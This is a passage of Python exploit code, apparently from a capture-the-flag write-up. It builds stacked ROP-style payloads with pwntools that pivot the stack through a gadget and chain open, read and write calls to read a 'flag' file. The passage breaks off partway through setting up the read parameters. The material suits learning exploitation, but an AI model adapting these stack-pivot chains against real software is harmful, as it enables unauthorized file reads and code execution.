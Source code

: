 ```python
COOL_GADGET =  exe.sym._Unwind_Resume + 380
stack1 = b"flag\x00"
stack1 += b"D" * (LR_OFFSET - len(stack1) - 0x8 * 3)
stack1 += p64(STACK_SHIFT)               # r31              # this is the offset i can use to move the stack at the end of COOL_GAGDET
stack1 += p64(0x0)                                          # <---- when i jump to COOL_GADGET the stack is here
stack1 += p64(0x0)
stack1 += p64(COOL_GADGET)               # lr

# ===================== 2 ===================== - open -> coolg

R31_OFFSET = 0x10 + PARAMS_SHIFT
stack2 = b""
stack2 += b"E" * R31_OFFSET
stack2 += p64(STACK_SHIFT)              # r31
stack2 += p64(0x0)
stack2 += p64(0x0)
stack2 += p64(COOL_GADGET)              # lr

# ===================== 3 ===================== - read -> coolg

R31_OFFSET = 0x10 + PARAMS_SHIFT
stack3 = b""
stack3 += b"F" * R31_OFFSET
stack3 += p64(STACK_SHIFT)              # r31
stack3 += p64(0x0)
stack3 += p64(0x0)
stack3 += p64(COOL_GADGET)              # lr

# ===================== 4 ===================== - write -> exit

# we don't need anything here cause we don't care what the program does after write
EXIT = exe.sym.exit
R31_OFFSET = 0x10 + PARAMS_SHIFT
stack4 = b""
stack4 += b"F" * R31_OFFSET
stack4 += p64(STACK_SHIFT)              # r31
stack4 += p64(0x0)
stack4 += p64(0x0)
stack4 += p64(EXIT)                     # lr

# ============== params for open =============

FRAME2_R3_OFFSET = 0x8a8
FRAME2_R0_OFFSET = 0x1f8
OPEN =  exe.sym.open64 + 20

params = b"X" * (FRAME2_R3_OFFSET - len(stack2) - len(stack3) - len(stack4))
params += p64(G_ROVERS)                  # r3
params += p64(0x0)                       # r4
params += p64(0x1a4)                     # r5
params += b"X" * FRAME2_R0_OFFSET
params += p64(OPEN)                      # r0 (next call)

# ============== params for read =============

FRAME4_R3_OFFSET = 0x18
FRAME4_R0_OFFSET = 0x1f8
READ = exe.sym.read + 20
FD = int(args.FD if args.FD else 3)

params += b"Y" * FRAME4_R3_OFFSET
```